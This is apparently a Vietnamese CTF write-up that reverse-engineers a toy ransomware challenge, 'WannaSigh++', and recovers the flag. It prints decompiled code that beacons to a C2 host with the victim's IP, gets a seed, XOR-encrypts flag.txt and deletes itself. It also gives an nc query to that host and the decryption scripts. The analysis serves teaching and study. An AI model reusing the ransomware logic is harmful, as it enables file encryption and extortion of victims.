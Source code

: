 # Challenge

<p align="center">
  <img src="./wanna1.png" alt="Entry point"/>
</p>

# File: [wannasigh++.elf](./wannasigh++.elf) [your-flag.ransomed](./your-flag.ransomed)

# Solution:

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ file wannasigh++.elf 
wannasigh++.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=58e49acb6fec47ab8873a7c2a24c9834ce838c0d, for GNU/Linux 3.2.0, not stripped
```

Nhìn có vẻ bình thường, mình tiếp tục bằng cách dùng ghidra xem sơ qua đoạn chương trình:

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  undefined8 local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e;
  local_150 = 0x65706f6e2e6e6152;
  local_148 = 0;
  cVar1 = exists((char *)&local_158);
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope");
    local_178 = (char *)malloc(0xf);
    getIPStr(local_178);
    local_138 = 0x5f68686868616142;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178);
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2;
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz");
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a;
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188);
    encrypt(local_188);
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Hàm `encrypt()` có vẻ khá thú vị, ta xem thử hàm này:

<p align="center">
  <img src="./wanna2.png" alt="Entry point"/>
</p>

Tới đây ta đã hiểu cách mã hoá của hàm: đọc plaintext trong file `flag.txt`, sau đó lấy các số trong hàm `rand()` dựa trên `seed` được truyền vô hàm, sau đó đem `xor` từng kí tự trong plaintext với các số từ hàm `rand()`, sau đó ciphertext sẽ được ghi vào file `your-flag.ransomed`. Từ đây ta lần tham số được truyền vào hàm `srand()`, cũng như là `seed`.  
Để lần được `seed`, ta xem phải xem lại đoạn chương trình trước đó

<p align="center">
  <img src="./wanna3.png" alt="Entry point"/>
</p>

Mình nhìn sơ hàm `getIPStr()`:

<p align="center">
  <img src="./wanna4.png" alt="Entry point"/>
</p>

Kết hợp với debug, mình rút ra một vài thứ từ đoạn chương trình trên:
  - Hàm `getIPStr()` có mục đích lấy IPv4 của máy tính mình bằng hàm `curl -s https://bot.whatismyipaddress.com`
  - Sau khi có địa chỉ IPv4 của máy tính mình, đoạn chương trình tiếp theo sẽ kết nối với host `wannasigh109fn10fn48vh.wpictf.xyz` thông qua port `0x48b2` hay `18610`, sau đó truyền chuỗi `Baahhhh_ + IPv4`, trong đó `IPv4` là IPv4 của máy tính cá nhân của mình. Sau đó hàm sẽ trả về một số, và số đó chính là seed

<p align="center">
  <img src="./wanna5.png" alt="Entry point"/>
</p>

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ nc wannasigh109fn10fn48vh.wpictf.xyz 18610      
Baahhhh_xx.xxx.xxx.xxx
1618617746
```

Từ đó mình sẽ viết script để có thể tìm flag từ file `your-flag.ransomed`:

# random.c
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	srand(1618617746);
	for (int i=0; i<104; i++)
		printf("%d, ", rand());
}
```

# script.py
```python
f = open('encFlag', 'rb')
a = [i for i in f.readlines()[0]]

b = [896477183, 955207521, 24321907, 464893680, 1683277536, 1610985375, 1184200633, 1364516228, 985992837, 1507220167, 1156534586, 1811523396, 1923681696, 1530304704, 516114307, 1796450039, 242833060, 1805362011, 194104249, 2136184217, 953565787, 2016360961, 513989520, 141054934, 273597823, 366860163, 650686429, 353902088, 452966047, 96162748, 1266435010, 1349443231, 1051370269, 1290756918, 1814336911, 587164157, 754258645, 851053896, 1951680385, 1740251482, 210790416, 960731323, 1404291230, 2134472112, 343552380, 1920405537, 1783438503, 586385440, 1578283900, 1977542752, 575086009, 384366040, 1846420066, 1089075529, 525420974, 2120017889, 1455935692, 1176107403, 326436330, 1908901740, 1272270151, 1592871340, 1110861323, 176156772, 736144610, 777714586, 763320929, 1490403255, 1628768482, 567517666, 1083171090, 1839558898, 1528248990, 339978672, 1826547363, 1871801370, 112900562, 1462502218, 310703162, 1691184462, 1292561323, 885789171, 2075550502, 991497741, 1974864700, 453487828, 964031982, 1283316744, 1629595232, 1290468312, 1044734836, 754381735, 735856005, 8112511, 930538508, 1472000615, 785827097, 1693859437, 814920223, 267111932, 113893456, 1898091313, 2106670830, 1642142446]
randoms = [(i & 255) for i in b]

for i in range(len(a)):
	char = a[i] ^ randoms[i]
	print(chr(char), end ="")
```

`WPI{backup-your-files}`

# Rethinking
Bài này mình có 2 chỗ tới giờ mình vẫn chưa hiểu, mong các cao nhân có thể giúp mình hoàn thiện hơn =(((
  - Nếu để ý trong chương trình ta có đoạn chương trình nhỏ thế này:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

    Ngay khúc này, mình thực sự thắc mắc là `seed` truyền vô chắc chắn là `0x2a`, nhưng khi debug <i>lần đầu tiên</i>, mình lại ra một kết quả khác là `0x607a2592`, cũng chính là số mà server sẽ trả về cho mình
  - Mục đích mình in nghiêng cụm từ `lần đầu tiên` là vì khi minh debug lại chương trình, mình phát hiện ra rằng khi gửi request lên server lần thứ 2 liên tiếp trở đi, mình nhận một kết quả hoàn toàn khác so với lần đầu:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

    Mình phải chờ một khoảng thời gian lâu sau đó thì mình mới có thể nhận lại kết quả ban đầu. Lúc này mình thắc mắc là do bên server nó cố tình code như thế, hay là do mình đã chưa hiểu gì đó về mấy cái mạng network này @@, hoặc có thể có đoạn nào đó trong bin mình đã đọc chưa kĩ =((((